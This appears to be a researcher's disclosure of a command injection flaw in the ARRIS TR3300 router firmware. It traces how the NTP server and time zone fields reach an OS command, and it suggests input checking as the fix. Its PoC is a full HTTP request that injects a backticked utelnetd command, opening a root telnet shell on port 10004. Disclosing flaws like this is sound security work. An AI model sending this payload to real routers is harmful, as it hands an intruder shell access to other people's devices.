 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `time and time zone` function(`ut_sys.html`), `h_primary_ntp_server、h_backup_ntp_server、h_time_zone` is directly passed by the attacker, so we can control the `h_primary_ntp_server、h_backup_ntp_server、h_time_zone` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`ntp_server、ntp_server2、time_zone`), and then call the function `nvram_set ` to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

Eventually, in `sub_4128E0` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## PoC

We set `h_primary_ntp_server` as **`/usr/sbin/utelnetd -l /bin/sh -p 10004`**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 672
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/ut_sys.html
Upgrade-Insecure-Requests: 1

year=1969&mon=12&day=31&hour=+16&min=4&sec=6&ecodis_conf=&userOldPswd=cGFzc3dvcmQ%3D&sysPasswd=cGFzc3dvcmQ%3D&sysConfirmPasswd=cGFzc3dvcmQ%3D&login_timeout=5&CurLang=English&time_zone=-8&auto_dls=0&primary_ntp_server=ntp.nasa.gov&backup_ntp_server=otc1.psu.edu&itsbutton1=Apply&h_igmp_proxy=&h_eco_dim=&h_eco_dis=&h_eco_day1=&h_eco_day2=&h_eco_day3=&h_eco_day4=&h_eco_day5=&h_eco_day6=&h_eco_day7=&eco_clock=&eco_days=&http_passwd=cGFzc3dvcmQ%3D&h_time_zone=-8&h_auto_dls=enable&h_primary_ntp_server=`/usr/sbin/utelnetd -l /bin/sh -p 10004`&h_backup_ntp_server=otc1.psu.edu&h_upnp_enable=enable&h_auto_update=&todo=save&this_file=ut_sys.html&next_file=ut_sys.html&message=
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>
